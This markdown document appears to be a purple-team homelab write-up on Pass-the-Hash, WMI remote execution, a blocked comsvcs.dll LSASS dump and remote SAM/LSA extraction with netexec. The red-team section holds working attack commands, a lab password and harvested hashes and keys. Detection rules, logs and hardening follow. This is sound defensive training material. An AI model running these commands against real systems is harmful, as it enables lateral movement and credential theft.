


# Pillar 5: Lateral Movement & Credential Dumping (Pass-the-Hash, WMI Execution, Defender Blocking & Remote SAM/LSA Extraction)

An end-to-end Purple Team investigation into lateral movement and credential harvesting. This scenario demonstrates authenticating across the domain using raw NTLM hashes (Pass-the-Hash), executing commands remotely via WMI (`wmiprvse.exe`), analyzing real-time endpoint antivirus interception of living-off-the-land LSASS dump attempts (`comsvcs.dll`), pivoting to remote SAM and LSA secrets extraction over SMB, and engineering SIEM detections.

---

## 1. Technique & MITRE ATT&CK Overview

* **Primary Tactics**: Lateral Movement (`TA0008`), Execution (`TA0002`), Credential Access (`TA0006`)
* **Technique IDs**: **T1550.002** (Pass the Hash), **T1047** (Windows Management Instrumentation), **T1003.001** (LSASS Memory), **T1003.002** (Security Account Manager), **T1003.004** (LSA Secrets)
* **Adversary Objective**: Authenticate laterally across the domain using captured NTLM hashes (Pass-the-Hash), execute remote reconnaissance via WMI, analyze real-time Defender antivirus blocking of LSASS minidump operations, and pivot to remote SAM/LSA extraction over SMB.

---

## 2. Red Team Attack Procedures

### Procedure 5.1: Pass-the-Hash (PtH) Lateral Movement & Remote WMI Execution
In Windows NTLM authentication, the plaintext password is never transmitted across the wire; instead, challenge-response handshakes are calculated directly from the user's 32-character NTLM hash. Adversaries with captured NTLM hashes can authenticate laterally without cracking passwords.

Using `netexec` from Kali Linux, the adversary authenticated to `winServer1` using the NTLM hash of `AzureWinServer` and invoked remote code execution via WMI:

```bash
# Executed from Kali Linux (100.121.144.96):
# 1. Pass-the-Hash SMB Authentication Check:
netexec smb 100.115.210.66 -u AzureWinServer -H b4ab7ef520e0a64a95a1b9f4d236a716

# 2. Remote WMI Process Execution via Pass-the-Hash:
netexec smb 100.115.210.66 -u AzureWinServer -H b4ab7ef520e0a64a95a1b9f4d236a716 -x "whoami /priv"
```


*(Split-terminal capture — Right pane: Successful Pass-the-Hash authentication and remote WMI command execution on `winServer1`).*

*Result:* Successfully authenticated as `AzureWinServer` without plaintext credentials (`Pwn3d!`) and executed remote WMI commands with elevated token privileges (`SeDebugPrivilege`, `SeImpersonatePrivilege`).

---

### Procedure 5.2: In-Flight Antivirus Defense Analysis (`comsvcs.dll` Blocked)
From the interactive Evil-WinRM shell on `win11-multi`, the adversary attempted to dump the memory of `lsass.exe` using the native Windows utility `comsvcs.dll`:

```powershell
# Executed within Evil-WinRM session on win11-multi:
$lsassPid = (Get-Process lsass).Id
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsassPid C:\Users\Public\lsass.dmp full
```


*(Split-terminal capture — Left pane: Interactive Evil-WinRM session on `win11-multi` demonstrating Defender intercepting `rundll32.exe comsvcs.dll` with "Access is denied" and confirming no `lsass.dmp` was created).*

#### Defensive Root Cause:
Windows Defender Antivirus real-time protection actively scanned the command line upon invocation, matched signature **`HackTool:Win32/DumpLsass.H`**, and terminated process creation before any handle or thread could attach to `lsass.exe`.

---

### Procedure 5.3: Adversary Pivot — Remote SAM & LSA Secrets Extraction
Blocked by on-host antivirus from dumping process memory, the adversary pivoted to **Remote Credential Extraction over SMB/RPC** against `win11-multi` (`100.69.69.97`) from Kali Linux.

```bash
# 1. Remote SAM Database Extraction:
netexec smb 100.69.69.97 -u AzureWinServer -p 'AzureLab2026!#' --sam

# 2. Remote LSA Secrets & Domain Cache Extraction:
netexec smb 100.69.69.97 -u AzureWinServer -p 'AzureLab2026!#' --lsa
```



#### Harvested Credential Telemetry:
* **Local Administrator (SAM)**:
  `azureuser:500:aad3b435b51404eeaad3b435b51404ee:b4ab7ef520e0a64a95a1b9f4d236a716:::`
* **Cached Domain Credentials (MS-CACHE-v2 / DCC2)**:
  `WAZUH.HOMELAB.LOCAL/asmith:$DCC2$10240#asmith#5b7ed8f023707b8d3ca94748e8a2f761:`
* **Computer Machine Account (NTLM & Kerberos AES Keys)**:
  `WAZUH\WIN11-MULTI-VIC$:aad3b435b51404eeaad3b435b51404ee:8a55c2d5f10bb3456d712c6d80d49e9f:::`
  `WAZUH\WIN11-MULTI-VIC$:aes256-cts-hmac-sha1-96:ca63e18491db00fbe90f50cf46b14e4b59f792fac7ae14e3c50e56f2e58c12d6`
* **DPAPI Master Keys**:
  `dpapi_machinekey:0x96f61285419e9deef4d5a0ae93f705f2cf7f8273`
  `dpapi_userkey:0xce8074d9a84be2eb5af2466c660169487ab5e58f`

---

## 3. Blue Team Forensic Telemetry

### Forensic Log Telemetry (Captured Live)

#### 1. WMI Process Execution Telemetry (`winServer1` - Event ID 4688)
> **Key Detection Indicator:** Command interpreter `cmd.exe` executing reconnaissance (`whoami /priv`) with output redirected to `\Windows\Temp\` spawned by parent `WmiPrvSE.exe` (WMI Provider Host) under high mandatory integrity (`S-1-16-12288`). This is the definitive signature of remote WMI command execution (MITRE T1047 / `wmiexec`).

```yaml
EventID: 4688
Channel: Security
CreatorSubject:
  AccountName: winServer1$
  DomainName: WAZUH
ProcessInformation:
  NewProcessName: C:\Windows\System32\cmd.exe
  ProcessCommandLine: 'cmd.exe /Q /c whoami /priv 1> \Windows\Temp\taNQLM 2>&1'
  CreatorProcessName: C:\Windows\System32\wbem\WmiPrvSE.exe # WMI Provider Host
  MandatoryLabel: S-1-16-12288 (High Mandatory Level)
```

#### 2. Antivirus Prevention Telemetry (`win11-multi` - Defender Event ID 1116 & 1117)
> **Key Detection Indicator:** Microsoft Defender Antivirus real-time protection matched signature `HackTool:Win32/DumpLsass.H` against command line invoking `comsvcs.dll MiniDump`, terminating process creation (`Action: Block`) before a handle could attach to `lsass.exe`.

```yaml
EventID: 1116 / 1117
Channel: Microsoft-Windows-Windows Defender/Operational
ThreatName: HackTool:Win32/DumpLsass.H
ID: 2147786203
Severity: High
Category: Tool
Path: CmdLine:_C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump 912 C:\Users\Public\lsass.dmp full
Action: Block / Remediate
Status: Successful
```

#### 3. Remote SMB Inbound Authentication (`win11-multi` - Event ID 4624)
> **Key Detection Indicator:** Inbound network logon (`LogonType: 3`) using `AuthenticationPackageName: NTLM` over SMB (port 445) with `ElevatedToken: Yes` from non-domain IP `100.121.144.96` (Kali Linux), preceding remote SAM and LSA registry hive extraction.

```yaml
EventID: 4624
Channel: Security
Task: Logon
LogonType: 3 # Network Logon
TargetUserName: AzureWinServer
TargetDomainName: WAZUH
AuthenticationPackageName: NTLM
LmPackageName: NTLM V2
WorkstationName: -
IpAddress: 100.121.144.96
IpPort: 50520
ElevatedToken: Yes
```

---

## 4. Detection Engineering (Wazuh SIEM)

### Custom Detection Rules (`local_rules.xml`)
The following detection rules monitor unauthorized memory access to LSASS and remote lateral movement via WMI:

```xml
<group name="active_directory,detection_engineering,">

  <!-- ============================================================ -->
  <!-- Rule 100104: LSASS Process Access / Injection (Sysmon 10)    -->
  <!-- MITRE ATT&CK: T1003.001 (OS Credential Dumping: LSASS Memory)-->
  <!-- ============================================================ -->
  <rule id="100104" level="12">
    <if_sid>60000</if_sid> <!-- Sysmon generic parent -->
    <field name="win.system.eventID">^10$</field>
    <field name="win.eventdata.targetImage" type="pcre2">(?i)lsass\.exe$</field>
    <field name="win.eventdata.grantedAccess" type="pcre2">(?i)(0x1010|0x1fffff|0x1410|0x1438)</field>
    <field name="win.eventdata.sourceImage" type="pcre2" negate="yes">(?i)(csrss|services|wininit|svchost|msmpeng)\.exe$</field>
    <description>Active Directory: Suspicious LSASS Process Access (Process: $(win.eventdata.sourceImage), GrantedAccess: $(win.eventdata.grantedAccess))</description>
    <mitre>
      <id>T1003.001</id>
    </mitre>
  </rule>

  <!-- ============================================================ -->
  <!-- Rule 100108: WMI Remote Execution Child Process (4688)       -->
  <!-- MITRE ATT&CK: T1047 (Windows Management Instrumentation)    -->
  <!-- ============================================================ -->
  <rule id="100108" level="10">
    <if_sid>60103</if_sid>
    <field name="win.system.eventID">^4688$</field>
    <field name="win.eventdata.parentProcessName" type="pcre2">(?i)wmiprvse\.exe$</field>
    <field name="win.eventdata.newProcessName" type="pcre2">(?i)(cmd|powershell|pwsh|cscript|wscript|rundll32|mshta|certutil)\.exe$</field>
    <description>Active Directory: Suspicious Process Spawning from WMI Provider Host ($(win.eventdata.newProcessName))</description>
    <mitre>
      <id>T1047</id>
      <id>T1059</id>
    </mitre>
  </rule>

</group>
```

### Threat Hunting Lucene Queries (Wazuh / OpenSearch Dashboard)

* **Hunt WMI Remote Child Processes (Event 4688)**:
  ```text
  data.win.system.eventID: "4688" AND data.win.eventdata.parentProcessName: *wmiprvse.exe
  ```
* **Hunt Suspicious LSASS Handle Access (Sysmon Event 10)**:
  ```text
  data.win.system.eventID: "10" AND data.win.eventdata.targetImage: *lsass.exe AND NOT data.win.eventdata.sourceImage: (*msmpeng.exe OR *svchost.exe OR *services.exe)
  ```
* **Hunt Defender Antivirus Interceptions (Event 1116 / 1117)**:
  ```text
  data.win.system.eventID: ("1116" OR "1117") AND data.win.eventdata.threatName: *DumpLsass*
  ```

---

## 5. Hardening & Prevention

### 1. Enable LSA Protection (RunAsPPL) & Credential Guard
Prevent non-protected processes from reading LSASS memory even if running with administrative or `SeDebugPrivilege` rights:
```powershell
# GPO: Computer Configuration -> Administrative Templates -> System -> Local Security Authority -> "Configures LSA to run as a protected process" -> Enabled with UEFI Lock
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "RunAsPPL" -Value 1 -Type DWord
```

### 2. Enforce the Protected Users Security Group
Adding privileged administrators to the **Protected Users** group provides immediate defenses against Pass-the-Hash:
* Disables NTLM authentication across the network (forces Kerberos).
* Prevents caching of plaintext credentials, DPAPI keys, and NTLM hashes in LSASS.
* Limits Kerberos TGT lifetime to 4 hours.

### 3. Restrict Remote RPC / SMB Administration
* Require **SMB Signing** (`RequireSecuritySignature = True`) across all endpoints to prevent NTLM relaying.
* Block inbound RPC/SMB dynamic ports from workstation-to-workstation subnets using host firewalls.
